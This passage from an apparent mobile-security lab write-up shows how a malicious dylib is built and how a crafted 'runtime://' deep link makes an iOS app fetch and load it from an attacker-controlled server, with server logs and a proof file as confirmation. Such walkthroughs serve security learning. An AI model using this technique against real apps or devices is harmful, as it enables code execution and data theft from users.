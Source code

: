 ```C

        // Free the allocated memory
        free(lib_path);
    } else {
        printf("Failed to retrieve dynamic library information\n");
    }

    return 1;
}
```

For PoC purpose, we write a simple file under same location as downloaded `license.dylib`, this is not limited to steal secret data in sandbox folder or if device is jailbroken it can escapse sandbox and access other apps data and so on.

### Compile license.dylib
We can use `clang` to compile `license.c` to `license.dylib` as below:
```bashscript
$ clang -dynamiclib -o license.dylib license.c
```
or
```bashscript
clang -arch arm64 -isysroot $(xcrun --sdk iphoneos --show-sdk-path) -dynamiclib -o license.dylib license.c
```

New `license.dylib` file will be generated then we need to copy this file to the same location with `mock_server.py`

## Deploy the attack
Make sure the iOS device for testing connect to the same network as the server (same Wifi), copy this URL to the device web browser to launch the app: `runtime://starttrial?server=192.168.10.66:5001/runtime?x=mhl.pages.dev&trialKey=1234-5678-ABCD`, we can see the app is launched and navigated to **Pro Pack** screen with a message "**Upgraded to Pro. Please wait for a decade before we add pro features**", which confirms the hijack is successful!

[![Upgraded to Pro](https://lh3.googleusercontent.com/pw/AP1GczMdYXvtORJduGBMHziWgc-PTsEg9H2SL9CYQ1tDk4Svz7E-wfHCvO0bNvysUSe5UCEQ2HSwQnInwEP5mFzfHZ7RqH4NcaeIGv-ZgFVVEnZLBVPDni5vkpQY8BIAMk0pS9h_FU0x7t3VvTJwT5FlE16z=w894-h1582-s-no?authuser=0)](https://lh3.googleusercontent.com/pw/AP1GczMdYXvtORJduGBMHziWgc-PTsEg9H2SL9CYQ1tDk4Svz7E-wfHCvO0bNvysUSe5UCEQ2HSwQnInwEP5mFzfHZ7RqH4NcaeIGv-ZgFVVEnZLBVPDni5vkpQY8BIAMk0pS9h_FU0x7t3VvTJwT5FlE16z=w894-h1582-s-no?authuser=0){:target="_blank"} <br/>**Figure: Upgraded to Pro** <br/><br/>

From the server terminal, we can see there are 3 requests sent to the server.
```bashscript
192.168.10.175 - - [17/Sep/2024 21:19:49] "GET /runtime?x=mhl.pages.dev/health HTTP/1.1" 200 -
192.168.10.175 - - [17/Sep/2024 21:19:49] "POST /runtime?x=mhl.pages.dev/activate HTTP/1.1" 200 -
192.168.10.175 - - [17/Sep/2024 21:19:49] "GET /runtime?x=mhl.pages.dev/download HTTP/1.1" 200 -
```

We can further confirm by SSH into device and navigate to `Runtime` app sandbox, there is `license.dylib` file downloaded and exploit PoC file `exploit_proof.txt` generated with the content "**exploited**" as expected.
[![Exploited PoC](https://lh3.googleusercontent.com/pw/AP1GczOcpSpiT6ANH_TMx0X3S5NN7sfU8PqsWBt4nUbibtJskgGO76UA8ig0cej3QIVFNoU1MpEi8gjA1P9yieQ_WX5Y7YJ3TRrTvhDYrsR2SaACeUUHB4yq83dkaWH5dcESffmcmw64Xp6ulN1tGb1ViZGw=w2570-h226-s-no?authuser=0)](https://lh3.googleusercontent.com/pw/AP1GczOcpSpiT6ANH_TMx0X3S5NN7sfU8PqsWBt4nUbibtJskgGO76UA8ig0cej3QIVFNoU1MpEi8gjA1P9yieQ_WX5Y7YJ3TRrTvhDYrsR2SaACeUUHB4yq83dkaWH5dcESffmcmw64Xp6ulN1tGb1ViZGw=w2570-h226-s-no?authuser=0){:target="_blank"} <br/>**Figure: Exploited PoC** <br/><br/>
